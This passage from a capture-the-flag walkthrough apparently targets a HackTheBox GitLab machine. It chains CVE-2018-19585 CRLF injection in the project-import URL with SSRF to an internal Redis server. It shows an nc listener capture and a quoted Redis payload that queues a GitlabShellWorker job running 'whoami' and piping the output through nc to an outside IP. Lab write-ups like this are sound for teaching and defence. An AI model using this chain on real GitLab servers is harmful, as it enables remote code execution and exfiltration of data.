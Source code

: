 This import will just fail eventually, as Redis doesn’t provide a Git repo that the import is expecting.

### CVE-2018-19585 - CRLF Injection

This vulnerability allows me to put newlines into the url, which results in the connection to something like Redis to be a connection followed by a series of independent commands. I’ll look at this again with `nc`. I’ll import the url `git://10.10.14.8:80/test/.git` again, but this time I’ll intercept the request in Burp Proxy.

[![image-20210409215911004](https://0xdfimages.gitlab.io/img/image-20210409215911004.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210409215911004.png)

I’ll edit the request to add lines in the middle of the url:

[![image-20210409215956169](https://0xdfimages.gitlab.io/img/image-20210409215956169.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210409215956169.png)

I’ll send that, and at `nc` I see the result:

```

oxdf@parrot$ nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 43128
0049git-upload-pack /test 
line1 
line2 
line3 
/.githost=10.10.14.8:80

```

If I sent this request to Redis, the first line would error, but then lines 1-3 could be good commands that I want to execute.

### Combining It All

#### POC

[This HackerOne report](https://hackerone.com/reports/299473) shows how to use GitLab Redis to get command execution by sending these commands:

```

 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec

```

To put this all together, I’ll delete my project and start a new import with the URL `git://[0:0:0:0:0:ffff:127.0.0.1]:6379/test/.git`, and intercept it in Burp. I’ll add in the additional Redis commands, making sure to start each line with a space, and modifying his payload to send the results of `whoami` back to my IP:
